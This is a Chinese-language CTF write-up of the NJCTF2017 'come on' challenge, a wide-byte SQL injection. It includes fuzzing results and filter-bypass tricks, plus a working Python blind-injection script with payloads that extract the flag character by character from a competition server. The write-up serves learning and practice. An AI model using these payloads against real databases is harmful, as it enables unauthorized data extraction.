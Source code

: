 ```yaml
---
title: "NJCTF2017--come on"

---
```



## come on

这个题是宽字节注入，司空见惯，但做出来的人不多，究其原因就是漏洞隐藏的挺深，并且观察的不够仔细。我是比赛后看的这道题，趁着这个机会刚好把sql注入复习一下。



### 题目逻辑

只有1个输入框，那么我们先搜集一下信息

- key=1，返回5条数据
- key= ， 返回9条数据
- key=asd， 返回0条数据

…………

- key=1' and 1=1#，响应中有9条数据，并观察到302跳转



用burp的intruderfuzz一下，可以看到

![](http://o6uyyks1m.bkt.clouddn.com//NJCTF/NJCTF1.PNG)

![](http://o6uyyks1m.bkt.clouddn.com//NJCTF/njctf2.PNG)

可以看到and，or，substr，mid，空格等等都被过滤了，但是select，括号，binary，locate等等都没被过滤。

因为我是事后做的题，所以测试的目的性更强一些。

后台逻辑我们也已经理清楚了：

- 输入1，2，3正常数字后台进行模糊查询，返回查询结果
- 当你的查询字符串包含敏感词，后台将查询字符串置空，返回查询结果，也就是全部数据



但为什么是宽字节注入呢？这就看你想到想不到了。



### 漏洞利用

这里又是学习学习了一波



主要有两种利用方法：

- 用 left 和 right 截取字符串
- 用 locate 或者 position 截取字符串



第一种是官方推荐的，脚本也挺好写：



```python
#coding:utf-8
import requests

flag = []
session = requests.Session()

def get_flag(url):
    payload = "?key=112%df%27||binary(right(left((select(flag)from(flag)),{pos}),1))={hex}%23"
    for i in range(1,33):
        for j in range(32,127):
            suffix = payload.format(pos=str(i), hex=hex(j))
            page = session.get(url=url+suffix)
            if "002265" in page.text:
                flag.append(chr(j))
                print(''.join(flag))

if __name__ == '__main__':
    url = "http://218.2.197.235:23733/index.php"
    get_flag(url)
```



第二种不过是换个函数locate，依然是截取字符串。



- locate( target, string )           返回target在string中第一次出现的位置
- locate( target, string, pos )  返回target在string的pos位置之后第一次出现的位置



把上面脚本的payload改成



```python
payload = "?key=112%df%27||locate(binary({hex}), (select(flag)from(flag)),{first_pos})={next_pos}%23"
```



当同一个字符在flag串中出现多次，就要进行多次判断。总的来说请求次数会比第一种方法少很多，但程序写起来会繁琐很多。



### 复习收获

- 平常见的宽字节注入当你查看源码是会看到 "charset=gbk"，这个题目就没有，还是我们too young too simple
- or 用 `||` 替换
- binary 用来 区分大小写
- \# 与 %23
- mysql_real_escape_string 和 addslashes 的宽字节注入问题
